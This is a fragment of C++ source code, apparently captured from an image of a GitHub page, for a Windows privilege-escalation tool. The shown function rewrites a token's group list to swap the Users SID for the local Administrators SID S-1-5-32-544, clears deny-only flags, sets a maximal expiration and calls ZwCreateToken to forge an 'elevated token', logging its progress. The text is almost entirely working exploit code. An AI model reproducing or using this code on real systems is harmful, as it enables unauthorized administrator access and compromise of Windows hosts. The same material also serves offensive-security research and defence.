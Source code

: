 ```c++
		}

		pSid = (PISID)pTokenGroups->Groups[i].Sid;
		if (pSid->SubAuthority[pSid->SubAuthorityCount - 1] == DOMAIN_ALIAS_RID_USERS)
		{
			memcpy(pSid, &LocalAdminGroupSID, sizeof(LocalAdminGroupSID));
			pTokenGroups->Groups[i].Attributes = SE_GROUP_ENABLED;
			wprintf(L"[*] Add extra SID S-1-5-32-544 to token.\n");
		}
		else
		{
			pTokenGroups->Groups[i].Attributes &= ~SE_GROUP_USE_FOR_DENY_ONLY;
			pTokenGroups->Groups[i].Attributes &= ~SE_GROUP_ENABLED;
		}
	}

	pTokenOwner = (PTOKEN_OWNER)LocalAlloc(LPTR, sizeof(PSID));
	pTokenOwner->Owner = pTokenUser->User.Sid;

	ExpirationTime.HighPart = 0xFFFFFFFF;
	ExpirationTime.LowPart = 0xFFFFFFFF;

	Status = ZwCreateToken(
		&pElevatedToken,
		TOKEN_ALL_ACCESS,
		&objectAttributes,
		TokenImpersonation,
		&AuthenticationId,
		&ExpirationTime,
		pTokenUser,
		pTokenGroups,
		pTokenPrivileges,
		pTokenOwner,
		pTokenPrimaryGroup,
		pTokenDefaultDacl,
		&tokenSource
	);
	if (Status != STATUS_SUCCESS)
	{
		wprintf(L"[-] ZwCreateToken Error: [0x%x].\n", Status);
		goto Clear;
	}
	wprintf(L"[*] ZwCreateToken successfully and get elevated token:\n\n");

	goto Clear;

Clear:
	if (pTokenPrivileges)
		LocalFree(pTokenPrivileges);
	if (pTokenOwner)
		LocalFree(pTokenOwner);
	if (hToken)
		CloseHandle(hToken);

	return pElevatedToken;
}
```

